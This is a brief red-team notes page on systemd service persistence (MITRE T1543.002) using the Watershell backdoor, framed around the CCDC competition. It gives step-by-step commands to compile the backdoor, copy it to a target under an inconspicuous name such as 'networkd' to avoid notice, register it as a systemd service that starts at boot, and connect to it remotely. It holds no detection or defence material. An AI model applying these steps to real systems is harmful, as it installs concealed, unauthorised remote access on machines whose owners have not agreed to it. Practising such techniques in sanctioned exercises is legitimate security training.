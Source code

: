 ```yaml
---
description: MITRE ATT&CK, Persistence, Sub-technique T1543.002
---
```


# Systemd Service Persistence

[Watershell ](https://github.com/RITRedteam/watershell-cpp)is an incredible script that I came across from a fellow red teamer during CCDC Regionals. I highly recommend reading the [original GitHub](https://github.com/wumb0/watershell) to learn more about the tool.

General steps for persistence with Watershell:

1. Compile the binary:&#x20;

```bash
g++ main.cpp watershell.cpp -o ${INSERT_BINARY_NAME}
```

2\. Note: You can edit the default port that the binary uses in the main.cpp and watershell.cpp files prior to compiling.

3\. Transfer the binary to the targets system, I recommend naming the binary something inconspicuous such as `networkd` or `ipv6_conf`

4\. Setup a service to execute the binary, the following demonstrates an example configuration:

```bash
[Unit]
Description=persistence

[Service]
Type=simple
ExecStart=/bin/networkd -l $port

[Install]
WantedBy=multi-user.target
```

5\. Connect to the target using `watershell-cli.py` using the following command:

```bash
python3 watershell-cli.py -t $ip -p $port
```

### References

{% embed url="https://redcanary.com/blog/attck-t1501-understanding-systemd-service-persistence" %}
